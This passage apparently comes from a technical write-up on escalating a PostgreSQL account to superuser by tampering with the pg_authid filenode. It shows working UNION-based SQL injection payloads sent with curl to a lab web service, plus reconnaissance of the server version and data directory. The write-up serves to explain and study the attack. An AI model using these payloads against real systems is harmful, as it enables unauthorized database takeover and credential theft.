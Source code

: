 The table contains a bunch of "rol" boolean flags and other interesting
stuff, like the MD5 hashes of the user logon passwords. The default
superadmin user "postgres" has all boolean flags set to true.

To become a superuser, we must flip all boolean fields to True for our
user, "poc_user".


---[ 3.1 - Search for the associated Filenode

To modify the table, we must first locate and read the filenode from the
disk. As discussed previously, we won't be able to get the data directory
setting from the DBMS, as we lack permissions to read the "pg_settings"
table:

</PRE>
```sh
$ curl -G "http://172.23.16.127:8000/phrases" --data-urlencode \
"id=-1 UNION SELECT 1337, (SELECT setting FROM pg_settings WHERE name='data_directory')"
{
    "error":"can't scan into dest[1]: cannot scan null into *string"
}
```
<PRE>


However, we can reliably guess the data directory path by querying the
version of the DBMS:

</PRE>
```sh
$ curl -G "http://172.23.16.127:8000/phrases" --data-urlencode \
"id=-1 UNION SELECT 1337, (SELECT version())"
[
    {"id":1337,"text":"PostgreSQL 13.13 (Ubuntu 13.13-1.pgdg22.04+1) on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 11.4.0-1ubuntu1~22.04) 11.4.0, 64-bit"}
]
```
<PRE>


Version information gives us more than enough knowledge about the DBMS
and the underlying server. We can simply install a major version of
PostgreSQL release 13 on our own Ubuntu 22 VM and find that the data
directory is "/var/lib/postgresql/13/main":

</PRE>
```console
ubuntu@ubuntu-virtual-machine:~$ uname -a
Linux ubuntu-virtual-machine 6.5.0-14-generic #14~22.04.1-Ubuntu SMP PREEMPT_DYNAMIC Mon Nov 20 18:15:30 UTC 2 x86_64 x86_64 x86_64 GNU/Linux
ubuntu@ubuntu-virtual-machine:~$ sudo su postgres
postgres@ubuntu-virtual-machine:~$ pwd
/var/lib/postgresql
postgres@ubuntu-virtual-machine:~$ ls -l 13/main/
total 84
drwx------ 5 postgres postgres 4096 lis 26 14:48 base
drwx------ 2 postgres postgres 4096 mar 15 11:56 global
drwx------ 2 postgres postgres 4096 lis 26 14:48 pg_commit_ts
drwx------ 2 postgres postgres 4096 lis 26 14:48 pg_dynshmem
drwx------ 4 postgres postgres 4096 mar 15 11:55 pg_logical
drwx------ 4 postgres postgres 4096 lis 26 14:48 pg_multixact
drwx------ 2 postgres postgres 4096 lis 26 14:48 pg_notify
drwx------ 2 postgres postgres 4096 lis 26 14:48 pg_replslot
drwx------ 2 postgres postgres 4096 lis 26 14:48 pg_serial
drwx------ 2 postgres postgres 4096 lis 26 14:48 pg_snapshots
drwx------ 2 postgres postgres 4096 mar 11 00:45 pg_stat
drwx------ 2 postgres postgres 4096 lis 26 14:48 pg_stat_tmp
drwx------ 2 postgres postgres 4096 lis 26 14:48 pg_subtrans
```
